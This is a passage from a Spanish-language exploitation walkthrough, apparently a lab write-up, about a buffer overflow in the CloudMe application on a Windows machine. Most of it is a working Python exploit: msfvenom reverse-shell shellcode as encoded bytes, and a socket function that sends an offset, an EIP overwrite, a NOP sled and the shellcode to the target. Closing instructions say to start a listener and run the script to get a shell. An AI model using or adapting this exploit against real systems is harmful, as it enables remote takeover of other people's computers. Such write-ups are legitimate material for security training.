 ```python
b"\x45\x40\xc6\xbc\x0b\x70\x5d\xb0\x83\x77\xd6\x7f\xf2\xb6"
b"\xe7\x2c\xc6\xd9\x6b\x2f\x1b\x39\x55\xe0\x6e\x38\x92\x1d"
b"\x82\x68\x4b\x69\x31\x9c\xf8\x27\x8a\x17\xb2\xa6\x8a\xc4"
b"\x03\xc8\xbb\x5b\x1f\x93\x1b\x5a\xcc\xaf\x15\x44\x11\x95"
b"\xec\xff\xe1\x61\xef\x29\x38\x89\x5c\x14\xf4\x78\x9c\x51"
b"\x33\x63\xeb\xab\x47\x1e\xec\x68\x35\xc4\x79\x6a\x9d\x8f"
b"\xda\x56\x1f\x43\xbc\x1d\x13\x28\xca\x79\x30\xaf\x1f\xf2"
b"\x4c\x24\x9e\xd4\xc4\x7e\x85\xf0\x8d\x25\xa4\xa1\x6b\x8b"
b"\xd9\xb1\xd3\x74\x7c\xba\xfe\x61\x0d\xe1\x96\x46\x3c\x19"
b"\x67\xc1\x37\x6a\x55\x4e\xec\xe4\xd5\x07\x2a\xf3\x1a\x32"
b"\x8a\x6b\xe5\xbd\xeb\xa2\x22\xe9\xbb\xdc\x83\x92\x57\x1c"
b"\x2b\x47\xf7\x4c\x83\x38\xb8\x3c\x63\xe9\x50\x56\x6c\xd6"
b"\x41\x59\xa6\x7f\xeb\xa0\x21\x40\x44\x5e\x37\x28\x97\x9e"
b"\x39\x12\x1e\x78\x53\x74\x77\xd3\xcc\xed\xd2\xaf\x6d\xf1"
b"\xc8\xca\xae\x79\xff\x2b\x60\x8a\x8a\x3f\x15\x7a\xc1\x1d"
b"\xb0\x85\xff\x09\x5e\x17\x64\xc9\x29\x04\x33\x9e\x7e\xfa"
b"\x4a\x4a\x93\xa5\xe4\x68\x6e\x33\xce\x28\xb5\x80\xd1\xb1"
b"\x38\xbc\xf5\xa1\x84\x3d\xb2\x95\x58\x68\x6c\x43\x1f\xc2"
b"\xde\x3d\xc9\xb9\x88\xa9\x8c\xf1\x0a\xaf\x90\xdf\xfc\x4f"
b"\x20\xb6\xb8\x70\x8d\x5e\x4d\x09\xf3\xfe\xb2\xc0\xb7\x0f"
b"\xf9\x48\x91\x87\xa4\x19\xa3\xc5\x56\xf4\xe0\xf3\xd4\xfc"
b"\x98\x07\xc4\x75\x9c\x4c\x42\x66\xec\xdd\x27\x88\x43\xdd"
b"\x6d"
)

# Funcion encargada de explotar el BoF
def bof():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Creando la conexión
	s.connect((ip, port)) # Conectandonos a la aplicación (ip:port)

	payload = offset + eip + b"\x90"*11 + shell_code # Definiendo el payload a enviar a la aplicación

	s.send(payload) # Enviando el payload

# Funcion Main
if __name__ == '__main__':
	bof() # Funcion encargada de explotar el BoF
```

Nos pondríamos en escucha por el puerto indicado en la creación de la *reverse shell* con `msfvenom` y ejecutaríamos el script con el programa *CloudMe* iniciado en la máquina *Windows*.

![consiguiendo acceso a la maquina victima](/assets/img/consiguiendo-acceso-a-la-maquina-victima.png)
